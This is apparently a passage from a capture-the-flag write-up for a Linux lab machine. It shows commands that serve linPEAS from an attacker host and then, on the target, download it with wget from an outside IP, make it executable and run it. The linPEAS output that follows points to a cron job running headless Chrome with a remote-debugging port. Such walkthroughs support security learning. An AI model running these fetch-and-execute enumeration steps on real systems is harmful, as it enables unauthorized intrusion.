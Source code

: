 ```text
Linux agile 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

We can use linPEAS to enumerate that host.

From our attacker host :

```shell
cp /opt/resources/linux/linPEAS/linpeas_linux_amd64 ./linpeas    

updog
```

on tagrget host :

```shell
cd /tmp
wget -q http://10.10.14.19:9090/linpeas -O /tmp/linpeas
chmod +x /tmp/linpeas
/tmp/linpeas
```

Some interesting results :

```text
root         997  0.0  0.0   4304  2664 ?        Ss   Jul04   0:01 /usr/sbin/cron -f -P
root       53840  0.0  0.1   7760  4160 ?        S    17:35   0:00  _ /usr/sbin/CRON -f -P
runner     53842  0.0  0.0   2888   984 ?        Ss   17:35   0:00      _ /bin/sh -c /app/test_and_update.sh
runner     53843  0.0  0.0   4780  3324 ?        S    17:35   0:00          _ /bin/bash /app/test_and_update.sh
runner     53848  0.0  0.7  37880 31536 ?        S    17:35   0:00              _ /app/venv/bin/python3 /app/venv/bin/pytest -x
runner     53849  0.0  0.3 33625804 13812 ?      Sl   17:35   0:00                  _ chromedriver --port=35401
runner     53855  0.0  2.5 33986460 102540 ?     Sl   17:35   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.3E8wHn --window-size=1420,1080 data:,
runner     53859  0.0  0.0   3348   992 ?        S    17:35   0:00                          _ cat
runner     53860  0.0  0.0   3348  1012 ?        S    17:35   0:00                          _ cat
runner     53867  0.0  1.4 33822084 57908 ?      S    17:35   0:00                          _ /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=53862 --enable-crash-reporter
runner     53887  0.0  1.9 33916488 78108 ?      Sl   17:35   0:00                          |   _ /opt/google/chrome/chrome --type=gpu-process --enable-logging --headless --log-level=0 --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=53862 --gpu-preferences=WAAAAAAAAAAgAAAYAAAAAAAAAAAAAAAAAABgAAAAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --use-angle=swiftshader-webgl --enable-logging --log-level=0 --shared-files --field-trial-handle=0,i,3907723225912737164,16292197360565636542,131072 --disable-features=PaintHolding
runner     53868  0.0  1.4 33822072 57636 ?      S    17:35   0:00                          _ /opt/google/chrome/chrome --type=zygote --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=53862 --enable-crash-reporter
runner     53870  0.0  0.3 33822100 15088 ?      S    17:35   0:00                          |   _ /opt/google/chrome/chrome --type=zygote --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=53862 --enable-crash-reporter
  └─(Caps) 0x0000000000200000=cap_sys_admin
```